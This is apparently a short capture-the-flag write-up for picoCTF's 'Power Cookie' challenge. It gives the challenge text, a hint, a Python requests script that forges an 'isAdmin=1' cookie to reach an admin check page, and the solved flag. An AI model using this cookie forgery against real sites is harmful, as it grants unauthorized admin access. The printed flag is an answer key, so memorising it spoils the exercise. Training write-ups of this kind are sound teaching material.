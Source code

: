 <h1>Power Cookie</h1>
<p>Can you get the flag?
 Go to this <a href='http://saturn.picoctf.net:61304/'>website</a> and see what you can discover.</p>
 <p>Hint :</p>
 <ul><li>Do you know how to modify cookies?</li></ul>
 <h3>Solution</h3>
 <p> http://saturn.picoctf.net:61304/check.php Edit Cookie isAdmin menjadi 1</p>
 
 ```python3
 import requests

url = 'http://saturn.picoctf.net:61304/check.php'
cookies = {'isAdmin':'1'}
res = requests.post(url,cookies=cookies).text
print(res)
 ```
 
 <h3>Flag</h3>
 <p>picoCTF{gr4d3_A_c00k13_0d351e23}</p>
